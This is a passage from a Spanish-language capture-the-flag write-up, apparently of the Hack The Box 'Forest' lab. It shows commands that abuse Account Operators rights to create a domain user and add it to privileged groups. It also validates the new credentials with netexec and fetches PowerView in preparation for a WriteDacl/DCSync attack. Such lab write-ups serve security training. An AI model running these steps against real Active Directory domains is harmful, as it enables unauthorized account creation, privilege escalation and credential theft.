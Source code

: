 Abusando de que el usuario **svc-alfresco** se encuentra en el grupo donde podemos crear usuarios, procederemos a añadir un nuevo usuario y hacerlo miembro del grupo "Exchange Windows Permissions"

```bash
net user jr Password01! /add /domain

net group "Exchange Windows Permissions" jr /add
```

<figure><img src="../../../.gitbook/assets/842_vmware_awXhH0eTa3.png" alt=""><figcaption></figcaption></figure>

### Abusing Account Operators Group - Assigning a group to the newly created user

```bash
net localgroup "Remote Management Users" jr /add
```

<figure><img src="../../../.gitbook/assets/843_vmware_fRM8MCczaC.png" alt=""><figcaption></figcaption></figure>

Comprobaremos que el usuario se ha creado correctamente y las credenciales funcionan sin problemas.

```
netexec smb 10.10.10.161 -u jr -p 'Password01!' -d htb.local
```

<figure><img src="../../../.gitbook/assets/844_vmware_re26RpA4yA.png" alt=""><figcaption></figcaption></figure>

### Abusing WriteDacl in the domain - Granting DCSync Privileges

Primero de todo, procederemos a descargarnos el PowerView en nuestro equipo Kali, lo pasaremos al equipo que queremos comprometer e importaremos el módulo.

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1

upload PowerView.ps1

Import-Module .\PowerView.ps1
```
{% endcode %}
